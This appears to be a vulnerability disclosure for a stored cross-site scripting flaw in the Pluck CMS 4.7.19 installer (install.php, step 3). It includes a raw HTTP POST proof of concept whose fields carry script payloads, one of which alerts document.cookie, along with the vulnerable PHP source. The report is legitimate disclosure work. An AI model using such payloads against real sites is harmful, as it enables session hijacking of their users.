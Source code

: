 ## Target;
https://github.com/pluck-cms/pluck

**Active Version**: 4.7.19

## Vulnerability Information
- **Vulnerability Type**: Stored Cross-Site Scripting (XSS)
- **Severity**: Critical

**Related Code File**: `install.php?action=step3`

**Vulnerability Parametre**: `cont2`

## Vulnerability Description

- During the installation on the system, a security vulnerability was encountered in the homepage area.
- The vulnerability is caused by the `cont2` parameter not being sanitized in a safe manner.
- This allows an attacker to inject malicious JavaScript code to be executed when the page is accessed. 
- A successful exploit can lead to session hijacking, redirection to phishing sites or unauthorized actions on behalf of the victim. 
- It can also be used for social engineering attacks or to spread malware.

## Proof of Content(POC)

- Below is what the `install.php?actions=step3` POST request looks like:

```
POST /pluck-master/install.php?action=step3 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/pluck-master/install.php?action=step3
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=Wb351y8noRVw6yLkJ5Yxv7MObe2EAVqg0zKQljaNWpmXBZD4qP3gr91X6OkJ; PHPSESSID=h84i56vv340jfnnu26qt235921; PHPSESSID=3ravfm034ns8lmfhr96bfmrdq8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

cont1=<script>alert("TITLE3")</script>&cont2=</textarea><script>alert(document.cookie)</script>&save=Save
```

- Source Code View

```
elseif (isset($_GET['action']) && $_GET['action'] == 'step3') {
		$titelkop = $lang['install']['title'];
		include_once ('data/inc/header2.php');

		//Save the homepage.
		if (isset($_POST['save'])) {
			save_page($cont1, $cont2, 'no', '');
			redirect('?action=step4', 0);
			include_once ('data/inc/footer.php');
			exit;
		}
		?>
		<span class="kop2"><?php echo $lang['install']['title']; ?> :: <?php echo $lang['install']['step_3']; ?></span>
		<p>
			<strong><?php echo $lang['install']['homepage']; ?></strong>
		</p>
		<form method="post" action="">
			<p>
				<label class="kop2" for="cont1"><?php echo $lang['general']['title']; ?></label>
				<input name="cont1" id="cont1" type="text" />
			</p>
			<p>
				<label class="kop2" for="cont2"><?php echo $lang['general']['contents']; ?></label>
				<textarea name="cont2" id="content-form" class="tinymce" cols="70" rows="20"></textarea>
			</p>
			<?php show_common_submits('?action=step3'); ?>
		</form>
		<?php
		include_once 'data/inc/footer.php';
	}
```

Page view

![](https://github.com/Speecttre/Asset/blob/main/Pluck_Master/PluckMaster-Install-Step3.png)

View XSS

![](https://github.com/Speecttre/Asset/blob/main/Pluck_Master/PluckMaster-XSS(document.cookie).png)
